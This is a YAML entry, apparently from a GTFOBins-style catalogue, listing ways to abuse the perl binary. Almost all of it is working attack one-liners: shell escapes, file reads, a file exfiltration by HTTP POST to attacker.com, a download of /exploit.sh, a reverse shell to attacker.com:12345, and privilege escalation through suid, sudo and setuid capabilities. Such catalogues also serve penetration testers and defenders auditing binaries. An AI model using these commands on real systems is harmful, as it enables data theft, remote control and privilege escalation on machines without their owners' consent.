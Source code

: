 ```yaml
---
functions:
  shell:
    - code: perl -e 'exec "/bin/sh";'
  file-read:
    - code: |
        LFILE=file_to_read
        perl -ne print $LFILE
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export LFILE=file_to_send
        perl -MIO::Socket::INET -e '$s = new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"}, PeerPort=>$ENV{"RPORT"}, Proto=>"tcp") or die;open(my $file, "<", $ENV{"LFILE"}) or die;$content = join("", <$file>);close($file);$post_data = "d=" . $content;$headers = "POST / HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: " . length($post_data) . "\r\nConnection: close\r\n\r\n";print $s $headers . $post_data;while (<$s>) { }close($s);'
  file-download:
    - description: Download a file via HTTP. For example, run `python3 -m http.server 8080` on the serving side.
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s=new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"},PeerPort=>$ENV{"RPORT"},Proto=>"tcp") or die; print $s "GET " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nMetadata: true\r\nConnection: close\r\n\r\n"; open(my $fh, ">", $ENV{"LFILE"}) or die; $in_content = 0; while (<$s>) { if ($in_content) { print $fh $_; } elsif ($_ eq "\r\n") { $in_content = 1; } } close($s); close($fh);'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid:
    - code: ./perl -e 'exec "/bin/sh";'
  sudo:
    - code: sudo perl -e 'exec "/bin/sh";'
  capabilities:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```

